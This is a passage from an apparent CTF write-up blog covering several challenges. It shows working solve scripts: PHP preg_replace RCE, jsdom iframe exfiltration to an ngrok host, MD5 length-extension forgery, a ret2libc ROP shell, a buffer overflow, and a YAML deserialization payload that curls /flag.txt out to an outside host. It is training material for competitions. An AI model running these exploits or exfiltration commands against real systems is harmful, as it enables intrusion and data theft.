                echo preg_replace($pattern,$replacement,$input);
        }else{
                echo $input;
        }
?> 

I've seen this challenge before, but the fact that you can achieve remote code execution using `preg_replace` still amazes me. The payload below reads the flag; refer to [this article](https://ik0nw.github.io/2020/09/23/PHP::Preg_replace()-RCE/) for a more in-depth explaination.


http://HOST:PORTs/?vector=/Admin/e&replace=system(%27cat%20here_we_dont_have_flag/flag.txt%27)


**Flag:** CTF{92b435bcd2f70aa18c38cee7749583d0adf178b2507222cf1c49ec95bd39054c}

## pingster {#pingster}


Like a DOM with a trick.

Flag format: CTF{sha256}


The provided site reads "Pingster - Down just for me?". Since it asks us to enter a domain, we can just enter one that we control (I used ngrok to 'borrow' an URL accesible from anywhere on the internet). Here's the request:


yakuhito@furry-catstation:~/ctf/unr21-ind$ nc -nvlp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 127.0.0.1 59654 received!
GET /test.php HTTP/1.1
User-Agent: Mozilla/5.0 (linux) AppleWebKit/537.36 (KHTML, like Gecko) jsdom/16.5.3
Accept-Language: en
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
host: 42e01a4d650a.ngrok.io
accept-encoding: gzip, deflate
X-Forwarded-For: 35.242.222.74

^C
yakuhito@furry-catstation:~/ctf/unr21-ind$


The "User-Agent" contains "jsdom/16.5.3" - this hints that the backend uses [jsdom](https://github.com/jsdom/jsdom) to make a request. Searching Google for "jsdom escape" returns a link to [this GitHub issue](https://github.com/jsdom/jsdom/issues/2729), which thankfully provides a PoC.

The final payload, heavily inspired by the creator's writeup:


<iframe id="exfil" src="https://eb9fabc4e699.ngrok.io/yaku"></iframe>



The server seems not to allow 'simple' page redirection, so an iframe whose source would change needed to be used. Also, the `setTimeout` function ensures that the data exfiltration is attempted 2 seconds after the page loads.

**Flag:** CTF{0eb9773a98312eb761296040d885af9a0201e84f524a68eaea33cb3a8e707055}

## secure-terminal {#secure-terminal}


My company wanted to buy Secure Terminal PRO, but their payment system seems down. I have to use the PRO version tomorrow - can you please find a way to read flag.txt?

Format flag: CTF{sha256}


This was one of my challnenges. Let's connect to the provided address and test out all options:


yakuhito@furry-catstation:~/ctf/unr21-ind$ nc 34.89.172.250 30882
 #####                                                          
#     # ######  ####  #    # #####  ######                      
#       #      #    # #    # #    # #                           
 #####  #####  #      #    # #    # #####                       
      # #      #      #    # #####  #                           
#     # #      #    # #    # #   #  #                           
 #####  ######  ####   ####  #    # ######                      
            #######                                             
               #    ###### #####  #    # # #    #   ##   #      
               #    #      #    # ##  ## # ##   #  #  #  #      
               #    #####  #    # # ## # # # #  # #    # #      
               #    #      #####  #    # # #  # # ###### #      
               #    #      #   #  #    # # #   ## #    # #      
               #    ###### #    # #    # # #    # #    # ###### 
                                                                
                                                    FREE VERSION
                                                                
Choose an action:
0. Exit
1. Provably fair command execution
2. Get a free ticket
3. Execute a ticket
1337. Go PRO
Choice: 1
Provably fair command execution
---
We do not execute commands before you ask us to.
Our system works based on 'tickets', which contain signed commands.
While the free version can only generate 'whoami' tickets, the pro version can create any ticket.
Each ticket is a JSON object containing two fields: the command that you want to execute and a signature.
The signature is calculated as follows: md5(SECRET + b'$' + base64.b64decode(command)), where SERET is a 64-character random hex string only known by the server.
This means that the PRO version of the software can generate tickets offline.
The PRO version also comes with multiple-commands tickets (the FREE version only executes the last command of your ticket).
The PRO version also has a more advanced anti-multi-command-ticket detection system - the free version just uses ; as a delimiter!
What are you waiting for? The PRO version is just better.

Choose an action:
0. Exit
1. Provably fair command execution
2. Get a free ticket
3. Execute a ticket
1337. Go PRO
Choice: 1337
We re having some trouble with our Dogecoin wallet; please try again later.

Choose an action:
0. Exit
1. Provably fair command execution
2. Get a free ticket
3. Execute a ticket
1337. Go PRO
Choice: 2
You can find your ticket below.
{"command": "d2hvYW1p", "signature": "f2c1fe816530a1c295cc927260ac8fba"}

Choose an action:
0. Exit
1. Provably fair command execution
2. Get a free ticket
3. Execute a ticket
1337. Go PRO
Choice: 3
Ticket: {"command": "d2hvYW1p", "signature": "f2c1fe816530a1c295cc927260ac8fba"}
Output:ctf

Choose an action:
0. Exit
1. Provably fair command execution
2. Get a free ticket
3. Execute a ticket
1337. Go PRO
Choice: 0
Thanks for using Secure Terminal v0.5!

^C
yakuhito@furry-catstation:~/ctf/unr21-ind$


It turned out that this challenge was not very easy. The secret to solve this challenge is to notice the formula used to generate the signature:


md5(SECRET + b'$' + base64.b64decode(command))


Some hashing algorithms, including md5, are vulnerable to length extension attacks. The concept is simple: if I know the hash of a string (let's call the string s), I can compute the hash of p, where p is s + random_looking_data + a_string_that_i_control. In other words, we can build new tickets by using the data provided in the free ticket (by adding, for example, '; cat flag.txt' to s, which is 'whoami' in our case). I highly recoomend reading [this Wikipedia page](https://en.wikipedia.org/wiki/Length_extension_attack) before looking at my solve script:


from pwn import *
import hashpumpy
import json
import base64

r = remote("127.0.0.1", 5555)

# Get 'whoami' ticket
r.recvuntil(b"Choice: ")
r.sendline(b"2")
r.recvuntil(b"below.\n")
ticket = json.loads(r.recvline().strip().decode())
command = base64.b64decode(ticket["command"].encode()).decode()
signature = ticket["signature"]

# Forge 'cat flag.txt' ticket
new_signature, new_command = hashpumpy.hashpump(signature, command, "; cat flag.txt", 64 + 1)
new_ticket = {"command": base64.b64encode(new_command).decode(), "signature": new_signature}
new_ticket = json.dumps(new_ticket)

# Send 'cat flag.txt' ticket
r.recvuntil(b"Choice: ")
r.sendline(b"3")
r.recvuntil(b"Ticket: ")
r.sendline(new_ticket.encode())
r.interactive()


I used [HashPump](https://github.com/bwall/HashPump)'s python library, haspumpy, to forge a new signature.

**Flag:** CTF{54fba46680a9a23c505a5e23a42d14fe3b8cf04a534ca416560b7c4819693908}

## rsa-quiz {#rsa-quiz}


We were trying to develop an AI-powered teacher, but it started giving quizes to anyone who tries to connect to our server. It seems to classify humans as 'not sentient' and refuses to give us our flag. We really need that flag - can you please help us?


There's no point in explaining RSA encryption once again - I already did that [here](https://blog.kuhi.to/rsa_encryption_signatures_and_blind_signatures), as did plenty of other bloggers and CTF players.


from Crypto.Util.number import inverse
from pwn import *

context.log_level = "CRITICAL"
r = remote("35.198.90.23", 30147)

# question 1
"""
                               
 _|_|_|      _|_|_|    _|_|    
 _|    _|  _|        _|    _|  
 _|_|_|      _|_|    _|_|_|_|  
 _|    _|        _|  _|    _|  
 _|    _|  _|_|_|    _|    _|  
                               
Welcome! Today you are taking a quiz.
Here are some ground rules:
1. DON'T HAX - just answer the questions
2. When asked for a string / piece of text, just delete all non-alphanumeric characters and make sure your answer is in lowercase
e.g. If the answer is 'John Cena', you should input 'johncena'.
4. Have fun! Just kidding... this is a quiz afterall

Let's start with something simple.
What does the S in RSA stand for? """
r.recvuntil(b"?")
r.sendline(b"shamir")

# question 2
"""
If p is 19 and q is 3739, what is the value of n?
"""
p = 19
q = 3739
n = p * q
r.recvuntil(b"?")
r.sendline(str(n).encode())

# question 3
"""
That was too simple! If n is 675663679375703 and q is 29523773, what is the value of p?
"""
n = 675663679375703
q = 29523773
p = n // q
r.recvuntil(b"?")
r.sendline(str(p).encode())

# question 4
"""
Ok, I'll just give you something harder!
n=616571, e=3, plaintext=1337
Gimme the ciphertext:
"""
n = 616571
e = 3
plaintext = 1337
ciphertext = pow(plaintext, e, n)
r.recvuntil(b": ")
r.sendline(str(ciphertext).encode())

# question 5
"""
Maybe the numbers are too small...
e = 65537
p = 963760406398143099635821645271
q = 652843489670187712976171493587
Gimme the totient of n:
"""
e = 65537
p = 963760406398143099635821645271
q = 652843489670187712976171493587
phi = (p - 1) * (q - 1)
r.recvuntil(b": ")
r.sendline(str(phi).encode())

# question 6
"""
Oh, you know some basic math concepts... then give me d (same p, q, e):
"""
d = inverse(e, phi) # mod inv
r.recvuntil(b": ")
r.sendline(str(d).encode())

# question 7
"""
You do seem to exhibit some signs of intelligence. Decrypt 572595362828191547472857717126029502965119335350497403975777 using the same values for e, p, and q (input a number):
"""
ciphertext = 572595362828191547472857717126029502965119335350497403975777
n = p * q
plaintext = pow(ciphertext, d, n)
r.recvuntil(b": ")
r.sendline(str(plaintext).encode())

# question 8
"""
Hmm.. Please encrypt the number 12345667890987654321 for me (same values for p, q, e):
"""
plaintext = 12345667890987654321
ciphertext = pow(plaintext, e, n)
r.recvuntil(b": ")
r.sendline(str(ciphertext).encode())

# question 9
"""
It appears that you might be sentient...
n = 152929646813683153154787333192209811374534931741180398509668504886770084711528324536881564240152608914496861079378215645834083235871680777390419398324440551788881235875710125519745698893521658131360881276421398904578928914542813247036088610425115558275142389520693568113609349732403288787435837393262598817311
e = 65537
p = 11715663067252462334145907798116932394656022442626274139918684856227467477260502860548284356112191762447814937304839893522375277179695353326622698517979487
ciphertext =  92908075623156504607201038131151080534030070467291869074115564565673791201995576947013121170577615751235315949275320830645597799585395148208661103156568883014693664616195873778936141694426969384158471475412561910909609358186641323174105881281083630450513961668012263710620618509888202996082557289343751590657
Tell me the plaintext (as a number):
"""
n = 152929646813683153154787333192209811374534931741180398509668504886770084711528324536881564240152608914496861079378215645834083235871680777390419398324440551788881235875710125519745698893521658131360881276421398904578928914542813247036088610425115558275142389520693568113609349732403288787435837393262598817311
e = 65537
p = 11715663067252462334145907798116932394656022442626274139918684856227467477260502860548284356112191762447814937304839893522375277179695353326622698517979487
ciphertext =  92908075623156504607201038131151080534030070467291869074115564565673791201995576947013121170577615751235315949275320830645597799585395148208661103156568883014693664616195873778936141694426969384158471475412561910909609358186641323174105881281083630450513961668012263710620618509888202996082557289343751590657
q = n // p
phi = (p - 1) * (q - 1)
d = inverse(e, phi)
plaintext = pow(ciphertext, d, n)
r.recvuntil(b": ")
r.sendline(str(plaintext).encode())

# question 10
"""
Did you enjoy this quiz? (one word)
"""
r.recvuntil(b"word)")
r.sendline(b"yes")

# get flag
r.recvuntil(b" Here's your reward:\n")
flag = r.recvline().decode().strip()

print(flag)

**Flag:** CTF{45d2f31123799facb31c46b757ed2cbd151ae8dd9798a9468c6f24ac20f91b90}

## bork-sauls {#bork-sauls}


You must beat the Dancer of The Boreal Valley to get the flag.

Flag format: ctf{sha256}


After downloading the binary from the challenge age, we cand try to figre out what the binary does by running it:


yakuhito@furry-catstation:~/ctf/unr21-ind$ chmod +x bork_sauls 
yakuhito@furry-catstation:~/ctf/unr21-ind$ ./bork_sauls 
You enter the room, and you meet the Dancer of the Boreal Valley. You have 3 options.
Choose: 
1.Roll
2.Hit(only 3 times)
3.Throw Estus flask at the boss (wut?)
4.Alt-F4

1
Health: 70000
Choose: 
1.Roll
2.Hit(only 3 times)
3.Throw Estus flask at the boss (wut?)
4.Alt-F4

2
Health: 40000
Choose: 
1.Roll
2.Hit(only 3 times)
3.Throw Estus flask at the boss (wut?)
4.Alt-F4

3
Health: 2039999
Choose: 
1.Roll
2.Hit(only 3 times)
3.Throw Estus flask at the boss (wut?)
4.Alt-F4

4
yakuhito@furry-catstation:~/ctf/unr21-ind$


Of course, merely running the application won't reveal teh vulnerability (although experienced CTF players might have already spotted it). Since the binary is not stripped, we can open it in IDA Pro. Thankfully, the main function is not very long:


// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch]
  int v5; // [rsp+8h] [rbp-8h]
  unsigned int v6; // [rsp+Ch] [rbp-4h]

  init(*(_QWORD *)&argc, argv, envp);
  v6 = 100000;
  v5 = 0;
  puts("You enter the room, and you meet the Dancer of the Boreal Valley. You have 3 options.");
  do
  {
    puts("Choose: \n1.Roll\n2.Hit(only 3 times)\n3.Throw Estus flask at the boss (wut?)\n4.Alt-F4\n");
    __isoc99_scanf("%d", &v4);
    if ( v4 == 3 )
    {
      v6 += 1999999;
    }
    else if ( v4 > 3 )
    {
      if ( v4 == 4 )
        exit(0);
    }
    else if ( v4 > 0 )
    {
      if ( v5 <= 2 )
        v6 -= 30000;
      ++v5;
    }
    printf("Health: %d\n", v6);
  }
  while ( (v6 & 0x80000000) == 0 );
  printf("Congratulations. Here's your flag: ");
  system("cat flag.txt");
  return 0;
}


In the code above, v6 is the health that we want to bring down to 0. There's no way of doing that in 3 hits, so the game should be impossible to win. However, notice that we can use the 3rd option how many times we want. The third option adds 1999999 to the int variable that holds the boss health - if we call it enough times, we might trigger an integer overflow and the value of the variable will turn negative. Let's try that:


from pwn import *

context.log_level = "critical"

r = remote("35.234.117.20", 32019)
#r = process("./bork_sauls")

INT_MAX = 2147483647 # maximum value of an int (C/C++)

health = 100000
health_added = 1999999

while health < INT_MAX:
  health += health_added
  r.recvuntil(b"4.Alt-F4")
  r.sendline(b"3")

r.recvuntil(b"Here's your flag: ")
flag = r.recvline().strip().decode()

print(flag)


*Note:* Still don't understand what we just did? Think of it this way: C and C++, like many other programming languages, have different variable types (int, unisgned int, short int, long long, etc). Each type stores the variable's value in memory using a known number of bits. This means that an int (or any other variable type that stores a number) has a maximum value that it cannot exceed - for C integers, that value is `INT_MAX = 2147483647`. If an integer that stores the `INT_MAX` value is incremented, the resulting value will be read as `INT_MIN = -INT_MAX = -2147483647`.

**Flag:** ctf{d8194ce78a6c555adae9c14fe56674e97ba1afd88609c99dcb95fc599dcbc9f5}

## the-restaurant {#the-restaurant}


Time for you to brush up on your web skills and climb the Michelin star ladder!

Flag format CTF{sha256}


This challenge is much easier to solve using Burp suite. The first level has am 'Order now!' button, so it would be logical to just select a 'Floppy Flag'. The resulting page contains the first part of the flag along with a link to the next level:

The checkbox near 'flag' is disabled - we need to find a way to order a flag. We can start by inspecting the page source:


<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title> The Restaurant, 0 stars </title>
  </head>
  <body>
    <a href="level0.php"><h1> The Restaurant, 0 stars </h1></a>
        <form method="POST">
      <h2>What would you like to order?</h2>
      <ul>
        <li><input type='checkbox' name='spinach-soup' id='spinach-soup' /><label for='spinach-soup'>Spinach Soup</label></li>
        <li><input type='checkbox' name='cardboard-crepe' id='cardboard-crepe' /><label for='cardboard-crepe'>Cardboard Crepe</label></li>
        <li><input type='checkbox' name='chalky-coffee' id='chalky-coffee' /><label for='chalky-coffee'>Chalky Coffee</label></li>
        <li><strike><input type='checkbox' name='flag' id='flag' disabled /><label for='flag'>Fruity Flag</label></strike> Out of stock!</li>
      </ul>
      <input type='hidden' name='order' />
      <button>Order now!</button>
    </form>
      </body>
</html>


We could delete the 'disabled' keyword using inspect element or use Burp. If we choose the latter, we need to order something like a calky-coffee and modify the order using Burp before it reaches the server. This is the original request:


POST /level0.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level0.php
Upgrade-Insecure-Requests: 1

chalky-coffee=on&order=


We only need to replace 'chalky-coffee=on' with 'flag=on', so the modified request will be very similar:


POST /level0.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level0.php
Upgrade-Insecure-Requests: 1

flag=on&order=


After receiving and saving the 2nd part of the flag, we can click on the link that is going to take us to the next level:

The page looks different, but the idea remains the same. We order any dish (I recommend Pensive Profiterol in this case - it sounds tastier than the others) and modify the request in Burp:


POST /level1.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level1.php
Upgrade-Insecure-Requests: 1

flag=on&order=


Here's the next level:

However, we cannot directly order any dish - we first need to get a ticket and then get our order using the ticket:

To win this level, we just need to order something, get a valid ticket and modify the ticket to say 'flag' instead of the dish we ordered:


POST /level2.php HTTP/1.1
Host: 34.107.86.157:32311
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://34.107.86.157:32311
Connection: close
Referer: http://34.107.86.157:32311/level2.php
Upgrade-Insecure-Requests: 1

order=ticket%3Aflag


The last level is a little bit harder than the previous ones:

The solution requires a little bit of creativity. Since all tickets are signed, we won't be able to simply modify the items we ordered and get the flag. Also, a flag can't be ordered by modifying an id from the first page. However, we can observe how the tickets are made: the ':' character acts as a delimiter, the first word is always 'ticket', followed by the name we entered, the ordered dishes, and a signature. 
A good hacker would now ask himself a question: What if our name contained ':'? The ticket encoding algorithm might encode the character, but there are also chances that the developer never thought of checking that since actual names don't contain ':'. Indeed, the name 'yaku:flag' would generate the following ticket:


ticket-for:yaku:flag:trupples-truffles:sig-f61c7010b2


I also needed to order trupple's famous truffles. After sending the ticket, the last part of the flag is revealed.

**Flag:** CTF{192145131b9d4a787303963496e2e6ff438790db98b85df847c9b0e2ef0a5a07}

## the-matrix {#the-matrix}


Are you ready to enter the matrix, Neo?

Flag format: ctf{sha256}


This was one of the hardest (and most interesting!) challenges. We are given two files, the binary that is running on a remote server and the libc library that it's using (the latter is going to come in handy later). Here's the relevant code that IDA Pro managed to assemble:

 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+8h] [rbp-78h]
  int v5; // [rsp+Ch] [rbp-74h]
  char v6; // [rsp+10h] [rbp-70h]
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  v5 = 1;
  init();
  while ( v5 )
  {
    printMenu();
    __isoc99_scanf("%d", &v4);
    switch ( v4 )
    {
      case 2:
        setValue((__int64)&v6);
        break;
      case 3:
        v5 = 0;
        break;
      case 1:
        printMatrix((__int64)&v6);
        break;
    }
  }
  return 0;
}

int printMenu()
{
  return puts("Choose: \n1.Show matrix\n2.Set value\n3.Exit\n");
}

int __fastcall printMatrix(__int64 a1)
{
  int result; // eax
  signed int i; // [rsp+18h] [rbp-8h]
  signed int j; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; i <= 9; ++i )
  {
    for ( j = 0; j <= 9; ++j )
      printf("%d ", (unsigned int)*(char *)(a1 + 10LL * i + j));
    result = puts(&s);
  }
  return result;
}

unsigned __int64 __fastcall setValue(__int64 a1)
{
  int v2; // [rsp+1Ch] [rbp-14h]
  int v3; // [rsp+20h] [rbp-10h]
  int v4; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("Line number: ");
  __isoc99_scanf("%d", &v3);
  puts("Column number: ");
  __isoc99_scanf("%d", &v2);
  puts("Value: ");
  __isoc99_scanf("%d", &v4);
  *(_BYTE *)(a1 + 10LL * v3 + v2) = v4;
  return __readfsqword(0x28u) ^ v5;
}


The vulnerability lies in the `setValue` function: after reading the column, line, and value, the program does not check whether the line and column ar less than 10 and greater than or equal to 0. In other words, if we input 0, 100, 1337, the program would run `matrix[100] = 1337`. This out-of-bounds write can allow us to rewrite any data on the stack, including the return address. This means that we can theoretically redirect the execution flow to any address we want.
A good idea would involve calling libc's `system` function. Since we need to simulate a line of code that looks like `system("/bin/sh")`, there are a few things we need to do:
 - Align the stack. Sicne we're overwriting a return address, the stack might not be aligned. This can be solved by just calling a "ret" instruction.
 - Assign "rdi" to an address that points to "/bin/sh". In Linux, the arguments of functions are passed via the RDI, RSI, RDX, RCX, R8, and R9 registers. Any additional argument will be pushed onto the stack. Since we want the argument of the `system` function to be "/bin/sh", we need to assign RDI to an address that points to "/bin/sh". Libc contains a few "/bin/sh" strings and pwntools will make it very easy for us to find them.
 - Call `system`. We can find the function's address by adding the base address of libc to the function's offset in the library. Once it gets called, we should have a shell on the remote server.

Also, PIE is enabled and the executable's libraries are loaded at a random memory address. This means that we need to find a way of finding libc's base address. Luckily for us, if we print the matrix before any value is initialized, we'll see some values that were at some point on the stack (this is why your computer science teacher bugged you not to let variables uninitialised inside functions - they get assigned with values from rbp-offset, which are not always 0). We can use this 'leak' to find the address of libc - believe it or not, the fourth line of the matrix contains a libc address. 

Here's the challenge author's solve script (in wich I added a few comments):


from pwn import *

# can be found either via trial-and-error
# or, preferably, by using a debugger such as gdb
ret_offset = 120

# this function writes 'value' at offset 'offset'
# using the out-of-bounds write I explained earlier
def w8at(offset, value):
    log.info("Value to write: {}".format(hex(value)))
    packed = p64(value)
    for i in range(8):
        p.sendlineafter("Exit\n", "2")
        p.sendlineafter("number: ", "0")
        p.sendlineafter("number: ", str(offset+i))
        if(packed[i] >= 128):
            p.sendlineafter("Value: ", str(packed[i]))
        else:
            p.sendlineafter("Value: ", str(packed[i]))

def main():
    global p
    #p = process("the_matrix")
    p = remote("35.234.117.20", 30502)
    # a cool feature of pwntools
    libc = ELF("./libc-2.27.so")

    #gdb.attach(p)

    p.sendlineafter("Exit\n", "1")

    for i in range(3):
        p.recvline()

    leak = p.recvline().split(b" ")
    print(leak)
    libc_fun = 0 # the libc function's address after parsing the values in the matrix

    for i in range(9, 3 , -1):
        val = int(leak[i])
        if(val < 0):
            val += 256
        libc_fun = libc_fun * 0x100 + val

    rop = ROP(libc)
    libc.address = libc_fun - 0x3bc660 - 0x37000 # rebase libc with the address we found in the leak

    log.info("LIBC BASE @ {}".format(hex(libc.address)))

    # ret
    w8at(ret_offset, rop.find_gadget(["ret"])[0] + libc.address)
    # rdi = "/bin/sh"
    w8at(ret_offset+8, rop.find_gadget(["pop rdi", "ret"])[0] + libc.address)
    w8at(ret_offset+0x10, next(libc.search(b"/bin/sh")))
    # system("/bin/sh")
    w8at(ret_offset+0x18, libc.sym[b"system"])

    p.sendlineafter("Exit\n", "3")

    # let the user execute commands
    p.interactive()

if __name__ == "__main__":
    main()



yakuhito@furry-catstation:~/ctf/unr21-ind$ python solve.py 
[+] Opening connection to 35.234.117.20 on port 30502: Done
[*] '/home/yakuhito/ctf/unr21-ind/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[b'0', b'0', b'0', b'0', b'96', b'6', b'98', b'-46', b'-73', b'127', b'\n']
[*] Loaded cached gadgets for './libc-2.27.so'
[*] LIBC BASE @ 0x7fb7d222d000
[*] Value to write: 0x7fb7d222d8aa
[*] Value to write: 0x7fb7d224e5bf
[*] Value to write: 0x7fb7d23e0e1a
[*] Value to write: 0x7fb7d227c550
[*] Switching to interactive mode

$ id
uid=1000(ctf) gid=3000 groups=3000,2000
$ ls
flag.txt  the_matrix
$ cat flag.txt


**Flag:** ctf{87987fdaf4eff6538580ae74007f14723228eac25ce524ae57555ff6c38cd450}

## overflowie {#overflowie}


This little app brags that is very secure. Managed to put my hands on the source code, but I am bad at pwn. Can you do it for me please? Thx.

Flag format: ctf{sha256}


I don't think the binary can be called 'source code', but here's what IDA Pro managed to recover:


int __cdecl main(int argc, const char **argv, const char **envp)
{
  FILE *v3; // rdi

  setbuf(stdout, 0LL);
  setbuf(stdin, 0LL);
  v3 = stderr;
  setbuf(stderr, 0LL);
  verySecureFunction(v3, 0LL);
  return 0;
}
int verySecureFunction()
{
  char v1; // [rsp+0h] [rbp-50h]
  char s1; // [rsp+4Ch] [rbp-4h]

  puts("Enter the very secure code to get the flag: ");
  gets(&v1);
  if ( strcmp(&s1, "l33t") )
    return puts("Told you this is very secure!!!");
  puts("Omg you found the supersecret flag. You are l33t ind33d");
  return system("cat flag.txt");
}


The 'gets' function is known to be insecure and cause buffer overflows. Aditionally, the 's1' variable is declared after 'v1' (closer to RBP), meaning that we can overwrite it. Its offset is `rbp - 0x50 - (rbp - 0x4) = 0x4c`. Here's the solve script:


from pwn import *

context.log_level = "CRITICAL"

r = remote("34.89.172.250", 32618)
#r = process("./overflowie")

buf = b"A" * 0x4c
buf += b"l33t"

r.sendlineafter(b"the flag: ", buf)

r.recvuntil(b"Omg you found the supersecret flag. You are l33t ind33d\n")

flag = r.recvline().decode().strip()
print(flag)

**Flag:** ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}

## secure-encryption {#secure-encryption}


Decode the encryption and get the flag.

Flag format CTF{sha256}


After connecting to the provided address, we get a sample 'encrypted' value:


yakuhito@furry-catstation:~/ctf/unr21-ind$ nc 35.198.184.110 31412
What is the initial message of the encryption? 
 ENC= b'S#(HLcuz@hZ%0>IY*%k~T6J?(SY}pdP+C`ZL}z4a'
Value: ^C
yakuhito@furry-catstation:~/ctf/unr21-ind$


I still remember not solving the first challenge about BASE85 that I encountered. Once you know the message is encrypted with base85 / ascii85, making a solve script is easy:


from pwn import *
import base64

context.log_level = "CRITICAL"

r =  remote("35.198.184.110", 31412)

def round():
  r.recvuntil(b"ENC= b'")
  enc = r.recvuntil("'")[:-1]
  dec = base64.b85decode(enc)
  print(dec)
  r.sendlineafter(b"Value: ", dec)

while True:
  round()
  line = r.recvline()
  if not line.startswith(b"What is the initial message"):
    flag = line.decode().strip().split(": ")[1]
    print(flag)
    break


**Flag:** CTF{d2e1793c6116d25fd592dc1be45d8bee87ebea206d5285ce6d1b157abdf10962}

## crossed-pil {#crossed-pil}


You might not see this at first. You should look from one end to another.

Format flag: ctf{sha256}


The provided zip file contains a PNG image that seems to contain random colors. However, analyzing the image with stegsolve reveals that a red plane looks like a readable QR code:

The same goes for green plane 0 and blue plane 0. We can rebuild the original QR code with the following script:


import numpy as np
from PIL import Image
import random

img = Image.open('image.png')
pixels = list(img.getdata())
new_pixels = []

for pixel_data in pixels:
  dark_white = False # don't want my blog to be taken down by github staff
  for v in pixel_data[:-1]:
    dark_white = dark_white or (v % 2 == 1)
  new_pixels.append(0 if dark_white else 0xff)

img = Image.new('RGBA', img.size, 255)
data = img.load()

cnt = 0
for x in range(img.size[0]):
  for y in range(img.size[1]):
    v = new_pixels[cnt]
    data[x, y] = (v, v, v, 255)
    cnt += 1

# QR code cannot be decoded yet
# to make it easier to read, we need to apply a simple mask
# 5x5; all pixels get the color of the majority
# insert US election joke here

def setSquare(start_x, start_y, color):
  for x in range(start_x, start_x + 5):
    for y in range(start_y, start_y + 5):
      data[x, y] = (color, color, color, 255)

# QR code is in the middle, so our mask 'squares' might not be aligned
# after a bit of trial-and-error, we find that an offset of 2 does the trick
for square_start_x in range(2, img.size[0] - 5, 5):
  for square_start_y in range(2, img.size[0] - 5, 5):
    dark_white_squares = 0
    for x in range(square_start_x, square_start_x + 5):
      for y in range(square_start_y, square_start_y + 5):
        if data[x, y][0] == 0:
          dark_white_squares += 1
    if dark_white_squares > 12:
      setSquare(square_start_x, square_start_y, 0)
    else:
      setSquare(square_start_x, square_start_y, 255)
img.save('qr.png')


The output image is saved in 'qr.png', which looks like this:

Reading the code with any tool gives us the flag.

*Note:* Apparently runnins `strings image.png` will reveal a script very similar to mine that can build the QR code. However, I was not able to read the script's output, so I suppose we still need to use the 'mask' used in my original script.

**Flag:** ctf{3c7f44ab3f90a097124ecedab70d764348cba286a96ef2eb5456bee7897cc685}

## lmay {#lmay}


Parsing user input? That sounds like a good idea. Can you check this one out?

Flag format: ctf{sha256}


The given address host a website. To solve this challenge, we need to notice to things: the name of the challenge ("yaml" in reverse) and that the form's action is set to Servlet, which means that our input will be sent to '/Servlet'.
The first result of a Google search for "yaml payloads" reveals [this repository](https://github.com/artsploit/yaml-payload), which thankfully also contains instructions for exploiting a vulnerable application. The solution involves the following steps:
First, we need clone the repository with `git clone https://github.com/artsploit/yaml-payload.git` and set our payload in `src/artsploit/AwesomeScriptEngineFactory.java`:


package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            String[] cmd = {"bash", "-c", "curl https://67bed420422b.ngrok.io/flag?flag=`cat /flag.txt`"};
            Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}


Notice that I used `ngrok` to get a public URL. To exploit the application, we just need to host a server on the port ngrok connects to (run `python -m http.server PORT` in the src directory) and to paste the following payload on the website:


!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
